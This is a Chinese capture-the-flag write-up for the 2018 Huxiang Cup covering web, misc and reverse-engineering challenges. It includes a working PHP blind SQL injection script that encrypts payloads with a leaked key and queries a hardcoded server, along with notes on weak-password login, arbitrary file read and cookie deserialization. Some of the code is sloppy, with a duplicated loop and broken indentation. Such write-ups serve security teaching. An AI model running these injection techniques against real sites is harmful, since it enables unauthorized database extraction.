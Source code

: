 # 签到题SingIn  Welcome
关注合天智汇公众号
# Code Check(web)
御剑扫描，发现news目录可以下载到list.php的源码：
![](/img/in-post/post-2018湖湘杯-writeup/image2.png)
![](/img/in-post/post-2018湖湘杯-writeup/image3.png)
![](/img/in-post/post-2018湖湘杯-writeup/image4.png)
发现只要构造一个请求包将id逆向加密AES128的CBC模式，并base64两次，就可以布尔sql注入，编写代码，经过一番寻找发现flag在notic2中
```
<?php 

function decode($data){
	$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
	mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
	$data = mdecrypt_generic($td,base64_decode(base64_decode($data)));
	mcrypt_generic_deinit($td);
	mcrypt_module_close($td);
	if(substr(trim($data),-7)!=='hxb2018'){
		echo '<script>window.location.href="/index.php";</script>';
	}else{
		return substr(trim($data),0,strlen(trim($data))-7);
	}
}


function encode($data){
$data=strval($data)."hxb2018";
$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
$data = mcrypt_generic($td,$data);

$data=base64_encode(base64_encode($data));


//echo $data;
return $data;
}
//echo substr(trim('123456789'),-7);
function fuck($data){
$url='http://47.107.164.116:49882/news/list.php?id='.strval($data);
//echo $url;
$html = file_get_contents($url);
//echo $html;
return $html;
}
for ($i=1; $i<=100; $i++) {
  for ($c=33; $c<=125; $c++) {
	  //echo chr($c);
  if(strpos(fuck(encode('1 and ascii(substring((select title from notice2),'.strval($i).',1))='.strval($c))),'XWAY')!==false)
  {
  		echo chr($c);
  		break;
  }
} 
} for ($i=1; $i<=100; $i++) {
  for ($c=33; $c<=125; $c++) {
	  //echo chr($c);
  if(strpos(fuck(encode('1 and ascii(substring((select title from notice2),'.strval($i).',1))='.strval($c))),'XWAY')!==false)
  {
  		echo chr($c);
  		break;
  }
} 
} 
```

# flow (misc)
发现是802.11协议，猜测为wifi密码破解，使用wifipr破解
![](/img/in-post/post-2018湖湘杯-writeup/image6.png)
使用密码password1来在wireshark里解密流量包，跟踪tcp协议发现flag
![](/img/in-post/post-2018湖湘杯-writeup/image7.png)
![](/img/in-post/post-2018湖湘杯-writeup/image8.png)

# XmeO (web)
进去系统后，尝试弱密码admin/admin发现进入后台，根据已有的条目怀疑是模板注入，使用内容搜索即可得到flag
![](/img/in-post/post-2018湖湘杯-writeup/image9.png)
![](/img/in-post/post-2018湖湘杯-writeup/image10.png)

# Disk (misc)
使用winhex打开该镜像，浏览分区1，发现4个txt里具有ntfs流隐藏
![](/img/in-post/post-2018湖湘杯-writeup/image11.png)
按照顺序打开这些ads，发现是一堆01，将其转化为字符串得到flag
![](/img/in-post/post-2018湖湘杯-writeup/image12.png)

# Replace (reverse)
Peid查壳发现是upx，先脱壳
![](/img/in-post/post-2018湖湘杯-writeup/image13.png)
发现加密的主要逻辑
![](/img/in-post/post-2018湖湘杯-writeup/image15.png)
逆向计算
```
iv='2a49f69c38395cde96d6de96d6f4e025484954d6195448def6e2dad67786e21d5adae6'
iv2='a49f69c38395cde96d6de96d6f4e025484954d6195448def6e2dad67786e21d5adae6'
f='\x03\x7C\x77\x7B\xF2\x6B\x6F\xC5\x30\x01\x67\x2B\xFE\xD7\xAB\x76\xCA\x82\xC9\x7D\xFA\x59\x47\xF0\xAD\xD4\xA2\xAF\x9C\xA4\x72\xC0\xB7\xFD\x93\x26\x36\x3F\xF7\xCC\x34\xA5\xE5\xF1\x71\xD8\x31\x15\x04\xC7\x23\xC3\x18\x96\x05\x9A\x07\x12\x80\xE2\xEB\x27\xB2\x75\x09\x83\x2C\x1A\x1B\x6E\x5A\xA0\x52\x3B\xD6\xB3\x29\xE3\x2F\x84\x53\xD1\x00\xED\x20\xFC\xB1\x5B\x6A\xCB\xBE\x39\x4A\x4C\x58\xCF\xD0\xEF\xAA\xFB\x43\x4D\x33\x85\x45\xF9\x02\x7F\x50\x3C\x9F\xA8\x51\xA3\x40\x8F\x92\x9D\x38\xF5\xBC\xB6\xDA\x21\x10\xFF\xF3\xD2\xCD\x0C\x13\xEC\x5F\x97\x44\x17\xC4\xA7\x7E\x3D\x64\x5D\x19\x73\x60\x81\x4F\xDC\x22\x2A\x90\x88\x46\xEE\xB8\x14\xDE\x5E\x0B\xDB\xE0\x32\x3A\x0A\x49\x06\x24\x5C\xC2\xD3\xAC\x62\x91\x95\xE4\x79\xE7\xC8\x37\x6D\x8D\xD5\x4E\xA9\x6C\x56\xF4\xEA\x65\x7A\xAE\x08\xBA\x78\x25\x2E\x1C\xA6\xB4\xC6\xE8\xDD\x74\x1F\x4B\xBD\x8B\x8A\x70\x3E\xB5\x66\x48\x03\xF6\x0E\x61\x35\x57\xB9\x86\xC1\x1D\x9E\xE1\xF8\x98\x11\x69\xD9\x8E\x94\x9B\x1E\x87\xE9\xCE\x55\x28\xDF\x8C\xA1\x89\x0D\xBF\xE6\x42\x68\x41\x99\x2D\x0F\xB0\x54\xBB\x16'ans=''
for i in range(0,35):
	for c in range(33,126):
		v6=(c>>4)%16
		v7=(16*c>>4)%16
		v8=ord(iv[2*i])
		if v8<48 or v8>57:
			v9=v8-87
		else:
			v9=v8-48
			v10=ord(iv2[2*i])
			v11=16*v9
		if v10<48 or v10>57:
			v12=v10-87
		else:
			v12=v10-48
		if ord(f[16*v6+v7])==(v11+v12)^0x19:
			print chr(c)
			ans=ans+chr(c)
print ans
```

# Readflag  (web)
首先查看apache配置文件路径
![](/img/in-post/post-2018湖湘杯-writeup/image17.png)
猜测flag文件名称
![](/img/in-post/post-2018湖湘杯-writeup/image18.png)

# MyNote  (web)
发现picture功能可以任意文件读取，cookie中存在反序列化，只要相应构造Picture这个序列化cookie
![](/img/in-post/post-2018湖湘杯-writeup/image19.png)
![](/img/in-post/post-2018湖湘杯-writeup/image20.png)